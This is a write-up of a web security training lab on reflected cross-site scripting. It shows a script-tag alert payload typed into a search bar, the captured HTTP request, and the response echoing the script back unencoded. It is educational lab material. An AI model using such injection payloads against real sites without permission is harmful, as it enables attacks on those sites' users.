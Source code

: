 The following is a solution to "Lab: Reflected XSS into HTML context with nothing encoded".

In the UI of the lab, enter the following payload into the search bar and click Search:
`<script>alert("howdy");</script>`

This step is demonstrated in the screenshot below:
![A screenshot of the search bar with the alert("howdy"); payload as the search term](/docs/assets/alert() poc 1.png)

As a result, an alert box appears in the UI, with the text from the alert() payload. This is demonstrated in the screenshot below:
![A screenshot of the alert box with the message "howdy"](/docs/assets/alert() poc 2.png)

The HTTP request associated with this action appears below, as pulled from the HTTP history section of the Proxy tab in Burp Suite.

~~~
GET /?search=%3Cscript%3Ealert%28%22howdy%22%29%3B%3C%2Fscript%3E HTTP/2
Host: 0ade007003023308825a84e400020013.web-security-academy.net
Cookie: [redacted]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0ade007003023308825a84e400020013.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


~~~

The following is a snippet of the HTTP response to the above request.

~~~
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 4876

<!DOCTYPE html>
<html>
...
<h1>0 search results for '<script>alert("howdy");</script>'</h1>
...
~~~

This shows that the application reflected the user input inside of the response.